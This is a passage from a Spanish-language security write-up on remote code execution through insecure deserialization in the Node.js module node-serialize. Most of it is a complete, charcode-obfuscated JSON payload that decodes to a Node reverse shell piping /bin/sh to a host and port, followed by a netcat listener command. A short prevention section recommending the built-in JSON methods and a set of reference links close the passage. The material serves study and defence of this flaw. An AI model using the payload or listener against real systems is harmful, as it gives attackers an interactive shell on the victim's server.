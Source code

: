 ```bash
```

eso colocamos dentro de la funcion:

```bash
{"username": "_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)); }()" ,"country":"india","city":"Delhi"}
```

al colocarnos a la escucha tendremos una reverse shell:

```bash
rlwrap nc -lvnp <IP_KALI>
```

También encontré un error similar en otro  módulo llamado  serialize-to-js

## Prevención

La forma correcta de serializar y deserializar objetos de JavaScript es utilizar el JSONobjeto global proporcionado. Por ejemplo:

```javascript
const object = {foo: 123};
JSON.stringify(object) // '{"foo":123}'
JSON.parse('{"foo":123}') // { foo: 123 }
```

- [https://portswigger.net/web-security/deserialization/exploiting](https://portswigger.net/web-security/deserialization/exploiting)
- [https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e)
- [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_nodejs.html](https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization_nodejs.html)
